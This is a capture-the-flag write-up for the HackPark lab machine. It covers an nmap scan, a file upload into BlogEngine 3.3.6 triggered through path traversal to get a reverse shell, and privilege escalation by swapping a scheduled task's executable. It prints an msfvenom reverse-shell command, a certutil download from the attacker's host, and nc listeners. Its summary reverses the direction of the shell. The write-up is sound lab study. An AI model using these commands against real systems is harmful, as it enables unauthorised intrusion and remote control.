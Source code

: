# HackPark CTF - Attack Report

## Objective:
- Gain system-level access to the HackPark Windows Server, exploit vulnerabilities in BlogEngine 3.3.6, escalate privileges, and retrieve sensitive information from the target.

---

## Reconnaissance

### 1. **Nmap Scan**

We began by scanning the target machine using **Nmap** to identify open ports and services.

```bash
nmap -sC -sV -oN nmap_scan.txt <target_ip>
```
- `-sC`: Runs default scripts.
- `-sV`: Version detection.
- `-oN`: Outputs the results to a file (`nmap_scan.txt`).

#### Results:
- **Port 80**: HTTP service running (BlogEngine 3.3.6)
- **Port 3389**: Remote Desktop Protocol (RDP)

---
### Gain Foothold
##  This portion will be demonstrated on my YouTube channel 
- ***Crafted Payload***
- ***BurpSuite***

---

## Exploitation Process

### 1. Exploitation of BlogEngine 3.3.6
- **Upload Directory**: The vulnerable BlogEngine version allowed us to upload an ASPX file into the `App_Data/files` directory.
- **File Used**: We uploaded a file named `PostView.ascx` containing a reverse shell payload. ***Correct extention found TCM's walk-through***

### 2. Triggering the Reverse Shell
- **Path Traversal**: To execute the uploaded file, we navigated to the following URL:
  ```bash
  /?theme=../../App_Data/files
  ```
- **Listener**: We set up a Netcat listener to receive the reverse shell on our attack machine:
  ```bash
  nc -nvlp 4444
  ```
- **Result**: Successfully received a shell from the target.

### 3. Discovery of a Scheduled Task
- **Task Identified**: We found a scheduled task named `Messages.exe` running on the system.

### 4. Reverse Shell via `Messages.exe` Exploit
- **Creation of Malicious Message.exe**: We used `msfvenom` to generate a malicious executable:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.162.140 LPORT=7777 -f exe > Message.exe
  ```
- **File Transfer**: The malicious executable was transferred to the target using `certutil`:
  ```bash
  certutil -urlcache -f http://10.23.26.19:80/Message.exe Message.exe
  ```
- **Execution**: The scheduled task automatically executed `Message.exe`, connecting to our Netcat listener:
  ```bash
  nc -nvlp 7777
  ```
- **Result**: Gained system-level access through the reverse shell.

---

## Privilege Escalation

### 5. Gaining Access to Administrator Files
- **Directory Change**: Navigated to `C:\Users\Administrator\Desktop`:
  ```bash
  cd C:\Users\Administrator\Desktop
  ```

### 6. Retrieving `root.txt`
- **Identified File**: The `root.txt` file was located in the `Administrator\Desktop` directory:
  ```bash
  dir
  ```
  **Output**:
  ```
  Directory of C:\Users\Administrator\Desktop
  08/04/2019  11:51 AM    32 root.txt
  ```
- **Reading root.txt**: The content of `root.txt` was retrieved using the `type` command:
  ```bash
  type root.txt
  ```
  **Output**:
  ```
  7e13d—redacted--b3d78d3e72
  ```

---

## Key Information

- **Reverse Shell Established**:
  - From: `10.10.162.140`
  - To: `10.23.26.19`
  - Using `Messages.exe` and Netcat listeners on ports 4444 and 7777.
  
- **Files and Folders Discovered**:
  - **Scheduled Task**: `Messages.exe`
  - **Accessed directories**:
    - `C:\Program Files (x86)\SystemScheduler`
    - `C:\Users\Administrator\Desktop`

- **Root Flag**:
  - **Location**: `C:\Users\Administrator\Desktop\root.txt`
  - **Content**: `redacted
